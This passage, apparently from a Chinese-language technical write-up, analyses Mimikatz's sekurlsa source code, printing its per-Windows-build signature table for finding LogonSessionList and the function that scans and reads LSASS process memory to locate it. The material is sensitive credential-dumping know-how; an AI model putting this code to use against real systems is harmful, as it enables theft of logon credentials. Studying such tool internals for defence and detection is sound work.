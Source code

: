 ```c++
    {KULL_M_WIN_BUILD_XP,       {sizeof(PTRN_WIN5_LogonSessionList),    PTRN_WIN5_LogonSessionList},    {0, NULL}, {-4,   0}},
    {KULL_M_WIN_BUILD_2K3,      {sizeof(PTRN_WIN5_LogonSessionList),    PTRN_WIN5_LogonSessionList},    {0, NULL}, {-4, -45}},
    {KULL_M_WIN_BUILD_VISTA,    {sizeof(PTRN_WN60_LogonSessionList),    PTRN_WN60_LogonSessionList},    {0, NULL}, {21,  -4}},
    {KULL_M_WIN_BUILD_7,        {sizeof(PTRN_WN61_LogonSessionList),    PTRN_WN61_LogonSessionList},    {0, NULL}, {19,  -4}},
    {KULL_M_WIN_BUILD_8,        {sizeof(PTRN_WN6x_LogonSessionList),    PTRN_WN6x_LogonSessionList},    {0, NULL}, {16,  -4}},
    {KULL_M_WIN_BUILD_BLUE,     {sizeof(PTRN_WN63_LogonSessionList),    PTRN_WN63_LogonSessionList},    {0, NULL}, {36,  -6}},
    {KULL_M_WIN_BUILD_10_1507,  {sizeof(PTRN_WN6x_LogonSessionList),    PTRN_WN6x_LogonSessionList},    {0, NULL}, {16,  -4}},
    {KULL_M_WIN_BUILD_10_1703,  {sizeof(PTRN_WN1703_LogonSessionList),  PTRN_WN1703_LogonSessionList},  {0, NULL}, {23,  -4}},
    {KULL_M_WIN_BUILD_10_1803,  {sizeof(PTRN_WN1803_LogonSessionList),  PTRN_WN1803_LogonSessionList},  {0, NULL}, {23,  -4}},
    {KULL_M_WIN_BUILD_10_1903,  {sizeof(PTRN_WN6x_LogonSessionList),    PTRN_WN6x_LogonSessionList},    {0, NULL}, {23,  -4}},
    {KULL_M_WIN_BUILD_2022,     {sizeof(PTRN_WN11_LogonSessionList),    PTRN_WN11_LogonSessionList},    {0, NULL}, {24,  -4}},
};
```

这些特征码用于识别引用 `LogonSessionList` 和 `LogonSessionListCount` 的指令。而 `ARRAYSIZE(LsaSrvReferences)` 是 `LsaSrvReferences` 数组的大小。

跟进 `kuhl_m_sekurlsa_utils_search_generic()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa\_utils.c

```c++
BOOL kuhl_m_sekurlsa_utils_search_generic(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKUHL_M_SEKURLSA_LIB pLib, PKULL_M_PATCH_GENERIC generics, SIZE_T cbGenerics, PVOID * genericPtr, PVOID * genericPtr1, PVOID * genericPtr2, PLONG genericOffset1)
{
    KULL_M_MEMORY_ADDRESS aLsassMemory = {NULL, cLsass-&gt;hLsassMem}, aLocalMemory = {NULL, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_SEARCH sMemory = {{{pLib-&gt;Informations.DllBase.address, cLsass-&gt;hLsassMem}, pLib-&gt;Informations.SizeOfImage}, NULL};
    PKULL_M_PATCH_GENERIC currentReference;
    #if defined(_M_X64)
        LONG offset;
    #endif
    //  根据 cLsass-&gt;osContext.BuildNumber 的版本号选择 LsaSrvReferences 中的特征码条目
    if(currentReference = kull_m_patch_getGenericFromBuild(generics, cbGenerics, cLsass-&gt;osContext.BuildNumber))
    {
        aLocalMemory.address = currentReference-&gt;Search.Pattern;
        if(kull_m_memory_search(&amp;aLocalMemory, currentReference-&gt;Search.Length, &amp;sMemory, FALSE))
        {
            aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off0; // optimize one day
            // ......
        #elif defined(_M_X64)
            aLocalMemory.address = &amp;offset;
            if(pLib-&gt;isInit = kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(LONG)))
                *genericPtr = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
        #elif defined(_M_IX86)
            // ......
        #endif

```